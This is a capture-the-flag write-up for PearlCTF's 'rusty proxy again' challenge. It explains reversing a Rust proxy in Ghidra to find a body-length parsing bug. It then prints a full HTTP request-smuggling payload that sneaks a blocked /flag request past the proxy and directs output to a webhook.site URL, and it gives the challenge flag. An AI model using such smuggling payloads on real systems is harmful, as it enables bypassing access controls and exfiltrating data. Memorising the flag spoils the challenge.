





# rusty proxy again
## Solution
We are provided with a binary which acts as the proxy.

Opening the binary in ghidra and seeing the main function



We can see the main function, following the function we get that a closure is called in a thread.



we find the references of this closure, we get to a function where we find handle connection function


following the function, we find parse function


now we analyse the function and find out that the request is splitted with `\r\n`



so if the body also had a `\r\n`, it will be splitted.

The bug was that the body length was calculated by incrementing the index by one after setting the headers.

```
Header 1\r\n
Header 2\r\n
\r\n
foo=bar\r\n
REQ 2
```

so the content length will be the length of `foo=bar` only, and the function sends the headers first and entire body one after the other.

Also to make the player reverse the binary, we added a custom header which is verified in the proxy `ctf: PearlCTF`



the `/flag` request is blocked in the proxy, so we needed to smuggle it.

Hence the final payload will be

```
POST /show HTTP/1.1
Host: rusty-proxy.ctf.pearlctf.in
Content-Length: 206
Content-Type: application/x-www-form-urlencoded
ctf: PearlCTF

name=begulaaa
POST /flag HTTP/1.1
Host: rusty-proxy.ctf.pearlctf.in
Content-Length: 64
Content-Type: application/x-www-form-urlencoded

to_req=https://webhook.site/7c0b4f46-d927-4d8e-8601-3d70d049fe4c
```



## Flag
`pearl{I_sh0uld_h4v3_t3sted_mY_pR0xY}`